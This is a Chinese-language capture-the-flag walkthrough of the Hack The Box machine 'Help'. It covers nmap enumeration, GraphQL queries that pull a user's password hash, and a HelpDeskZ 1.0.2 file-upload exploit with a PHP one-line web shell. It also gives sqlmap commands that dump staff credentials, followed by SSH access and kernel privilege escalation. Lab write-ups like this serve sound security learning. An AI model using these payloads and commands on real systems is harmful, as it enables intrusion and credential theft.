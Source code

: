 ## nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).

```

## dirsearch

### 80端口

![image-20250325215039367](Help/image-20250325215039367.png)

扫目录先扫到http://10.10.10.121/support，继续扫扫到下面这些目录，

![image-20250325215054785](Help/image-20250325215054785.png)

在readme中找到版本号为1.0.2

![image-20250325215213772](Help/image-20250325215213772.png)

该版本存在[SQL注入和任意文件上传](https://www.exploit-db.com/exploits/41200)

sql注入需要登录

## 3000端口

查看响应头服务器正在运行express框架

搜到express js query language可以查到graphql

![image-20250325220155752](Help/image-20250325220155752.png)

![image-20250325220215164](Help/image-20250325220215164.png)

graphql查询语法[Pwning WordPress GraphQL |渗透测试合作伙伴 --- Pwning WordPress GraphQL | Pen Test Partners](https://www.pentestpartners.com/security-blog/pwning-wordpress-graphql/)

查询有哪些schema

```
http://help.htb:3000/graphql?query={%20__schema{queryType{name,fields{name,description}}}}
```

![image-20250325222021292](Help/image-20250325222021292.png)

然后查询username和password

```
http://10.10.10.121:3000/graphql?query={user{username,password}}
```

![image-20250325223025651](Help/image-20250325223025651.png)

```
username	"helpme@helpme.com"
password	"5d3c93182bb20f07b994a7f617e99cff"
```

```
helpme@helpme.com：godhelpmeplz
```

然后使用该账号密码即可登录

## 突破点

上面查询到helpdeskz 1.0.2存在文件上传漏洞和sql注入漏洞，分别都尝试一下

### 文件上传漏洞

漏洞原理，上传之后的文件名命名时会以当前时间戳的MD5值增加扩展之后进行命名，所以存在爆破的可能性[爆破脚本](https://github.com/b4rt00/helpdeskz-1.0.2-file_upload)

```
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
```

上传一句话木马

```
<?php @system($__GET[cmd]);?>
```

![image-20250325230535303](Help/image-20250325230535303.png)

![image-20250325230552221](Help/image-20250325230552221.png)

然后反弹shell

![image-20250325231940266](Help/image-20250325231940266.png)

![image-20250325231953338](Help/image-20250325231953338.png)

### sql注入

[HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download - PHP webapps Exploit](https://www.exploit-db.com/exploits/41200)

![image-20250325232802730](Help/image-20250325232802730.png)

注入点就在上传文件之后，文件下载的url中，注入参数为param[]

使用sqlmap爆出用户名和密码

```
sqlmap -r sql1 -p param[] --batch --dbs
```

![image-20250325233139257](Help/image-20250325233139257.png)

```
sqlmap -r sql1 -p param[] --batch -D support --tables --threads 10
```

![image-20250325234108983](Help/image-20250325234108983.png)

```
sqlmap -r sql1 -p param[] --batch -D support -T users --columns --threads 10
```

![image-20250325234205817](Help/image-20250325234205817.png)

```
sqlmap -r sql1 -p param[] --batch -D support -T staff -C username,password --threads 10 --dump
```

![image-20250325235115941](Help/image-20250325235115941.png)

sql注入得到admin密码

```
admin：Welcome1
```

ssh连接尝试多个用户名，最后help用户成功登录，

该版本存在内核漏洞，内核提权即可

## 提权

该版本存在内核提取漏洞

![image-20250325233659741](Help/image-20250325233659741.png)

![image-20250325233654056](Help/image-20250325233654056.png)

本地下载之后上传到靶机，靶机编译之后运行即可

![image-20250325234013436](Help/image-20250325234013436.png)